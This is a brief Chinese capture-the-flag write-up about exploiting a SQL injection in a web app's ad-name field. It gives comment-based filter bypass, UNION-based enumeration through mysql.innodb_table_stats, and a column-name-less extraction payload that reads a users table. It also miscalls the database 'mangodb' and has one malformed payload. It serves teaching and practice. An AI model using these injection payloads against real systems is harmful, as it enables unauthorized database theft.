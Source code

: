 看着有 XSS，但是无法利用，所以只能找 SQL 注入

登录注册、在测试的时候发现发布中的广告名如果输入一些敏感关键字，例如`and`、`or`。会有警告，fuzz 出来是这样

![error](error.png)

很明显的 sql 注入了，直接联合查询

```
1'/**/group/**/by/**/22,'3
```

第 23 行时报错，说明列明是 22 行。

![error](23.png)

接下来测试回显位，发现回显位为 2，3

![error](response.png)

```
1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

接下来就是注入三步走了

```
1'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

接着爆表

```
1'union/**/select/**/1,group_concat(table_name)/**/where/**/information_schema.tables/**/where/*/tables_schema='web1',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

但是这里是 mangodb，修改 payload

```
1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

![error](tables.png)



这时候就要无列名注入了，由于没有 `mysql.innodb_column_stats` 这个方法，就查不了列名，此时我们就需要给不存在的列名取名，然后按照别名正常继续注入。

```
1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

![error](flag.png)



